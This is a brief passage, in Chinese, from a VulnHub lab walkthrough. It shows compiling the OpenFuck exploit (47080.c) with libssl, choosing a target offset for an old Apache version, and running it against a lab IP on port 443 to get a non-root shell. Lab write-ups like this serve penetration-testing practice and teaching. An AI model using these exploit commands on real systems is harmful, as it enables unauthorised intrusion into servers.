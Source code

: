 ```
于是安装函数库并编译。
apt-get install libssl-dev
gcc -o OpenFuck 47080.c -lcrypto
./OpenFuck
运行可执行文件中告诉了使用方法。
```

![image-20241207154454476](vulnhub靶场实战/image-20241207154454476.png)		

```
找到符合的target值，ox6a刚好符合这个靶场的apache版本1.3.2
```

![image-20241207155155885](vulnhub靶场实战/image-20241207155155885.png)	

```
重新执行该恶意命令。于是得到shell，但不是root还需要进一步提权。
./OpenFuck 0x6b 192.168.15.138 443 -c 40
```

![image-20241207155244448](vulnhub靶场实战/image-20241207155244448.png)	
